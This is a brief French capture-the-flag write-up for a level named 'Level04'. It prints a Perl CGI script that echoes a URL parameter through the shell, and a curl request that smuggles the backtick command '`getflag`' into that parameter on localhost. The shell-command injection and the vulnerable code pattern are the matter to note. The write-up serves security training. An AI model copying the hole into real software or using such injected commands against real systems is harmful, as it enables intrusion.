

# Level04:

**En se connectant sur le level04 on y voit un fichier perl qui contient le code suivant:**

**recupere les parametres de l'url dans la variable param**
**\$y prend la valeur du premier parametre de la fonction**
**Affiche $y**
**Execute la fonction x juste au dessus en recuperant la variable "x" depuis les parametres de l'url**

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print 'echo $y 2>&1';
}
x(param("x"));
```

**On peut assez simplement exploiter le script en faisant un call avec curl**
*curl localhost:4747/level04.pl?x='\`getflag\`'*


